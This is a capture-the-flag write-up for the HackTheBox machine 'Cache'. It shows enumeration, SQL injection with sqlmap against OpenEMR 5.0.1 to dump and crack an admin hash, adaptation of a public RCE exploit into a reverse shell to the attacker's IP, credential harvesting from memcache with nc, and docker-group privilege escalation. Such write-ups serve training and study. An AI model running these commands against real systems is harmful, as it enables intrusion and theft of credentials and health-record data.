


_[<-- Back](https://flast101.github.io/HTB-writeups)_

# Cache

* * * 
## 1- Overview

   

Retire: 10 october 2020      
Writeup: 10 october 2020

### Summary

**2- Enumeration**   
2.1- Nmap Scan   
2.2- Web Site Discovery   
2.3- New site   

**3- Open EMR**   
3.1- Discovery   
3.2- SQL Injection   
3.3- Remote Code Execution   

**4- Privilege Escalation**     
4.1- Memcache   
4.2- Docker   

* * *
## 2- Enumeration
### 2.1- Nmap Scan

First things first, we begin with a **`nmap`** scan:
~~~
root@kali:~# nmap --reason -Pn -sV -sC --version-all 10.10.10.188

Nmap scan report for 10.10.10.188
Host is up, received user-set (0.028s latency).
Scanned at 2020-06-01 10:22:55 CEST for 10s
Not shown: 998 closed ports
Reason: 998 resets

PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCb3lyySrN6q6RWe0mdRQOvx8TgDiFAVhicR1h3UlBANr7ElILe7ex89jpzZSkhrYgCF7iArq7PFSX+VY52jRupsYJp7V2XLY9TZOq6F7u6eqsRA60UVeqkh+WnTE1D1GtQSDM2693/1AAFcEMhcwp/Z7nscp+PY1npxEEP6HoCHnf4h4p8RccQuk4AdUDWZo7WlT4fpW1oJCDbt+AOU5ylGUW56n4uSUG8YQVP5WqSspr6IY/GssEw3pGvRLnoJfHjARoT93Fr0u+eSs8zWhpHRWkTEWGhWIt9pPI/pAx2eAeeS0L5knZrHppoOjhR/Io+m0i1kF1MthV+qYjDjscf
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFAHWTqc7a2Az0RjFRBeGhfQkpQrBmEcMntikVFn2frnNPZklPdV7RCy2VW7Ae+LnyJU4Nq2LYqp2zfps+BZ3H4=
|   256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMnbsx7/pCTUKU7WwHrL/d0YS9c99tRraIPvg5zrRpiF

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  1 10:23:05 2020 -- 1 IP address (1 host up) scanned in 10.68 seconds
~~~
There are only 2 ports open, 22 with SSH and 80 with HTTP. There is an Apache web server v. 2.4.29 installed and the OS is a Linux distribution.

Let’s have a look on the web site hosted there.

### 2.2- Web Site Discovery

Before visiting the web site, we run Burp Suite in order to register the web traffic.

Going to the url [http://10.10.10.188](http://10.10.10.188), we arrive on the home page of a site about hacking.

At this point, the only noticeable thing is a login page:

### 2.3- Gobuster

Running gobuster gives the following results:
~~~
root@kali:~# gobuster dir -t 50 -u http://10.10.10.188:80/ -w /usr/share/wordlists/dirb/common.txt -e -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.188:80/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php,asp,aspx,jsp,txt
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/06/07 11:40:26 Starting gobuster
===============================================================
(...)
http://10.10.10.188:80/author.html (Status: 200) [Size: 1522]
http://10.10.10.188:80/contactus.html (Status: 200) [Size: 2539]
http://10.10.10.188:80/index.html (Status: 200) [Size: 8193]
http://10.10.10.188:80/index.html (Status: 200) [Size: 8193]
http://10.10.10.188:80/javascript (Status: 301) [Size: 317]
http://10.10.10.188:80/jquery (Status: 301) [Size: 313]
http://10.10.10.188:80/login.html (Status: 200) [Size: 2421]
http://10.10.10.188:80/net.html (Status: 200) [Size: 290]
http://10.10.10.188:80/news.html (Status: 200) [Size: 7231]
http://10.10.10.188:80/server-status (Status: 403) [Size: 277]
===============================================================
2020/06/07 11:43:11 Finished
===============================================================
~~~   

Let's have a look at the `/jquery` page:     

We find the creds **"ash:H@v3_fun"** in the `functionality.js` file:

They don't work in SSH. We can log in in the site, but nothing more as the site page is under construction.

### 2.4- New site

It seems there is not much we can work with. However, if we pay attention to the `/author.html` page, we read something interesting about the author:

**`cache.htb`** seems to be the name of the site we were visiting. We can add it to our `hosts` file with `echo "10.10.10.188 cahe.htb" >> /etc/hosts` and easily verify that it is the case.

But what is the name and address of his other projet ?

Let's do a wordlist and fuzz the host name:

~~~
root@kali:~# cewl -w wordlist.txt -m 1 http://10.10.10.188/author.html
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@kali:~#wc -l wordlist.txt   
42 wordlist.txt
~~~

Now we can use this wordlist with **`wfuzz`** and see what we find:     
~~~
root@kali:~/Documents/results/10.10.10.188# wfuzz -w wordlist.txt -H "HOST: FUZZ.htb" -u http://10.10.10.188/ --hc 400 --hh 8193
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.188/
Total requests: 42

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                         
===================================================================

000000037:   302        0 L      0 W      0 Ch        "HMS"                                                           

Total time: 0.530113
Processed Requests: 42
Filtered Requests: 41
Requests/sec.: 79.22835
~~~

We can add “10.10.10.188 hms.htb” to our /etc/hosts.

* * *
## 3- Open EMR
### 3.1- Discovery
The page of **[http://hms.htb](http://hms.htb)** is redirected to [http://hms.htb/interface/login/login.php?site=default](http://hms.htb/interface/login/login.php?site=default)

We google "openemr default creds". This is "admin:pass" but it does not work.
"ash:H@v3_fun" does not work either.

Let's make a bit of enumeration on "hms.htb":

~~~
root@kali:~# nmap -sV -sC -Pn hms.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 18:51 CEST
Nmap scan report for hms.htb (10.10.10.188)
Host is up (0.066s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: OpenEMR Login
|_Requested resource was interface/login/login.php?site=default
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.07 seconds
~~~
We already knew that a software named OpenEMR is installed and we don't get its version number from `nmap`. OpenEMR is "the most popular open source electronic health records and medical practice management solution."

However, we noticed that the login page mentioned the year 2018 and OpenEMR site has a [release history page](https://www.open-emr.org/wiki/index.php/OpenEMR_Wiki_Home_Page#Release_History). It is written that the version 5.0.1 was released on April 23, 2018.

In addition, if we run gobuster on hms.htb, we find a shit load of uri returning 200. Several of them return the OpenEMR version, confirming it is 5.0.1:

### 3.2- SQL Injection

Now, we can look at the ExploitDB and google about the exploits on this OpenEMR version.

We find 2 interesting links:
- The following exploit gives a reference showing a SQLi on youtube :
OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution: [https://www.exploit-db.com/exploits/45161](https://www.exploit-db.com/exploits/45161).     
Of course, we need creds to run this exploit but it also gives a [link](https://www.youtube.com/watch?v=DJSQ8Pk_7hc) to a youtube video showing a SQLi exploitation. I had a look at it and it clearly shows where you can perfom the SQLi.
- OpenEMR Version < 5.0.1 Remote Code execution vulnerability: [https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69).    
This is truely the better link I found. It confirms you can perform a SQL injection on the page to get credentials and then provide a python script to exploit the remote code execution vulnerability.

First click on Register onthe page [http://hms.htb/portal/](http://hms.htb/portal/). Then, when trying to go to the page http://hms.htb/portal/add_edit_event_user.php?eid=1', we obtain the following result:

The result means that the **"eid"** parameter might be injectable. We must capture the request sent with **`Burp Suite`** and use it to test SQL injections with **`sqlmap`**. The captured request is :

~~~
GET /portal/add_edit_event_user.php?eid=1%27 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: OpenEMR=dj35b2jbhudt3frlib1fjd7jku; PHPSESSID=qit8qsffamvgj8cpkhf3dhue15
Upgrade-Insecure-Requests: 1
~~~

We save it in a file **"openemr.req"** and use it with SQLmap. You can perform a whole sqlmap sequences of injections to get first the database name, then the tables, and finally the credentials:

~~~
1. Database:   
   root@kali:~# sqlmap -r openemr.req --dbs
2. Tables:
   root@kali:~# sqlmap -r openemr.req -D openemr --tables
3.Credentials
   root@kali:~# sqlmap -r openemr.req -D openemr -T users_secure --dump
~~~

Actually, we found in [https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69), that the table **`users_secure`** contains the credentials. So you only need to run this one:

We have the creds we were looking for:    
- username: **openemr_admin**    
- password: **$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.**

Cracking the password using `john` is straight forward:
~~~
root@kali:~/Documents/results/10.10.10.188# echo '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' > pass.hash
root@kali:~/Documents/results/10.10.10.188# john pass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxx           (?)
1g 0:00:00:00 DONE 2/3 (2020-06-07 06:43) 2.631g/s 2984p/s 2984c/s 2984C/s water..zombie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Our creds are:   
- username: **openemr_admin**    
- password: **xxxxxx**

We can login as **Administrator**:

### 3.3- Remote Code Execution

Now, it's reverse shell time. We can use the exploit we just read. Of course, we have to adapt it a little bit.   

First, the last version is provided here : [https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr_exploit.py](https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr_exploit.py).

Then, we put our parameters and we read the code entirely to make sure everything is OK:   
- username = "openemr_admin"
- password = "xxxxxx"
- ip = '10.10.14.18'
- port = 9001
- url = "http://hms.htb/interface/main/main_screen.php?auth=login&site=default"
- resp = s.post("http://hms.htb/portal/import_template.php?site=default", data = payload)
- rev_shell = s.get("http://hms.htb/portal/shell.php")

We have a shell !

Python is not install to get a terminal shell, but python3 is usable :
~~~
www-data@cache:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

Now, we can su Ash as we already have his creds to escalate and read the user.txt file:
~~~
www-data@cache:/$ su ash
su ash
Password: H@v3_fun
~~~

* * *
## 4- Privilege Escalation

### 4.1- Memcache

We can now enumrate the target as Ash using linPEAS for example. We find some ports related to memcache and with regards to the box name, we have to get a closer look to it.

We have **memcache** running locally on port 11211:
~~~
ash@cache:~$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
...              
tcp        0      0 127.0.0.1:11211         127.0.0.1:55946         TIME_WAIT   -                   
...
~~~

Google **memcache** exploit, we can find exploits in EDB and some articles :
- Memcache Exploit : [https://niiconsulting.com/checkmate/2013/05/memcache-exploit/](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/)
- 11211 - Pentesting Memcache : [https://book.hacktricks.xyz/pentesting/11211-memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

Let's gather information using commands provided byt HackTricks:

~~~
ash@cache:~$ echo "version" | nc -vn localhost 11211
nc: getaddrinfo for host "localhost" port 11211: Name or service not known

ash@cache:~$ echo "version" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VERSION 1.5.6 Ubuntu

ash@cache:~$ echo "get account" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE account 0 9
afhj556uo
END

ash@cache:~$ echo "get user" | nc -vn 127.0.0.1 11211   
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE user 0 5
luffy
END

ash@cache:~$ echo "get passwd" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
~~~

We just discovered a new account:
- username: **luffy**
- password: **0n3_p1ec3**

We can use su or SSH:
~~~
root@kali:/ftphome6# ssh luffy@10.10.10.188
luffy@10.10.10.188's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-99-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun  7 07:01:19 UTC 2020

  System load:  0.0               Processes:              178
  Usage of /:   74.3% of 8.06GB   Users logged in:        0
  Memory usage: 22%               IP address for ens160:  10.10.10.188
  Swap usage:   0%                IP address for docker0: 172.17.0.1

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

107 packages can be updated.
0 updates are security updates.

Last login: Wed May  6 08:54:44 2020 from 10.10.14.3
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:~$
~~~

### 4.2- Docker

Luffy is member of **docker"** group and there is a usual GTFOBins exploit to escalate privileges.

First thing, we can check what is the status of **Docker** on the target. We have an ubuntu image available but no container running:

So, if we want to use GTFObins, we will have to replace "alpine"  by "ubuntu". It will spawn a kind of shell (actually this is a shell in the container) and if you type "id" you will see you are granted with root privileges… although you are still in the container, not in the host machine.
But hey, if you are trying to get the root flag in a CTF, you have it.

Let's try to really root this box. You can also find several scripts for
privilege escalation in Docker abusing the "docker" group.     
However, mine is the one I recommend:
- Article: [https://flast101.github.io/docker-privesc](https://flast101.github.io/docker-privesc)    
- Script: [https://github.com/flast101/docker-privesc/blob/master/docker-privesc.sh](https://github.com/flast101/docker-privesc/blob/master/docker-privesc.sh)

Replace "alpine" with "ubuntu" and you're done. I forgot to replace it in the line `docker image rm alpine` used to clean the box after exploitation, which gives one error message but it works:

Be Curious, Learning is Life !

_[<-- Back](https://flast101.github.io/HTB-writeups)_

<!-- Global site tag (gtag.js) - Google Analytics -->

